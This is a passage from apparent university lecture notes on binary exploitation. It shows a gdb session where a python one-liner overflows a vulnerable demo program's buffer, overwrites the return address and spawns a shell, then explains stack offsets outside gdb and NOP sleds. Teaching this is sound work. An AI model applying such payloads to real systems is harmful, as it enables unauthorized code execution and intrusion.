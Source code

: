 We are looking to jump to the address 0xbffff604.

``` example
(gdb) r 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\x04\xf6\xff\xbf'+'A'*4+sh+'\x00'"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/git/si485-binary-exploits/lec/10/demo/vulnerable 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\x04\xf6\xff\xbf'+'A'*4+sh+'\x00'"`

Breakpoint 1, 0x080484db in vuln ()
(gdb) c
Continuing.
process 7017 is executing new program: /bin/dash
$ 
```

Boom!

## Outside of GDB and NOP sledding

The last step in this process is to get the exploit to work outside of
gdb. If we just drop our exploit into the command line, it doesn't work:

``` example
user@si485H-base:demo$ ./vulnerable 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\x04\xf6\xff\xbf'+'A'*4+sh+'\x00'"`
Segmentation fault (core dumped)
```

The reason problem is that gdb changes the stack layout, so all the
addresses within gdb are *lower* than they would be outside gdb as they
are more values on the stack. Visually we can see something like this
for how our exploit works:

``` example

    with gdb                 without gdb

  .------------.           .------------.
  |            |           |            |
  | gdb junk   |           :            :  
  |            |            
  :            :           :            :
                           |            |
  :            :           | shell code |
  |            |           | padding    |
  |            |           | ret addr   |--.
  |            |           :            :  |
  | shell code | <-.                     <-'
  | padding    |   |                            
  | ret addr   |---'
```
